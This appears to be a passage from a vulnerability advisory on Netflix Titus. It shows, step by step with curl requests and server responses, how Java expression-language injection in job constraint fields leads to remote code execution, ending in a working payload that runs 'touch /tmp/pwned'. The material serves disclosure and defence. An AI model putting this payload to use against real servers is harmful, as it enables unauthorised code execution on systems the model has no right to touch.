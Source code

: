  Expression: `#{this.class.name}`
 Curl command:
 ```
 curl localhost:7001/api/v3/jobs \                                                       
  -X POST -H "Content-type: application/json" -d \
  '{
    "applicationName": "localtest",
    "owner": {"teamEmail": "me@me.com"},
    "container": {
      "image": {"name": "alpine", "tag": "latest"},
      "entryPoint": ["/bin/sleep", "1h"],
      "securityProfile": {"iamRole": "test-role", "securityGroups": ["sg-test"]},
      "softConstraints": {"constraints": {"#{#this.class.name}":"True"}},
      "hardConstraints": {"constraints": {"#{#this.class.name}":"True"}}
    },
    "batch": {
      "size": 1,
      "runtimeLimitSec": "3600",
      "retryPolicy":{"delayed": {"delayMs": "1000", "retries": 3}}
    }
  }'
 ```
 Response:
 ```
 {"statusCode":400,"message":"Invalid Argument: {Validation failed: 'field: 'container', description: 'Soft and hard constraints not unique. Shared constraints: [com.netflix.titus.api.jobmanager.model.job.Container]', type: 'HARD''}, {Validation failed: 'field: 'container.hardConstraints', description: 'Unrecognized constraints [com.google.common.collect.SingletonImmutableBiMap]', type: 'HARD''}, {Validation failed: 'field: 'container.softConstraints', description: 'Unrecognized constraints [com.google.common.collect.SingletonImmutableBiMap]', type: 'HARD''}"}
 ```
 The class names at the evaluation (deffered) sinks for SchedulingConstraintValidator (`com.google.common.collect.SingletonImmutableBiMap`) and SchedulingConstraintSetValidator (`com.netflix.titus.api.jobmanager.model.job.Container`) are different.

 Using this fact and a ternary operator, the exploit uses an expression which gets evaluated differently in the two contexts:

 Example expression: `#{#this.class.name.substring(0,5) == 'com.g' ? 'FOO' : 'BAR'`
 Response:
 ```
{"statusCode":400,"message":"Invalid Argument: {Validation failed: 'field: 'container', description: 'Soft and hard constraints not unique. Shared constraints: [BAR]', type: 'HARD''}, {Validation failed: 'field: 'container.hardConstraints', description: 'Unrecognized constraints [foo]', type: 'HARD''}, {Validation failed: 'field: 'container.softConstraints', description: 'Unrecognized constraints [foo]', type: 'HARD''}"}
```
This now gives the flexibility to evaluate any (no lowercase constraint) Java EL expression by replacing 'BAR' with it. 

Expression for RCE (runs `touch /tmp/pwned` on remote server):  `#{#this.class.name.substring(0,5) == 'com.g' ? 'FOO' : T(java.lang.Runtime).getRuntime().exec(new java.lang.String(T(java.util.Base64).getDecoder().decode('dG91Y2ggL3RtcC9wd25lZA=='))).class.name}"`
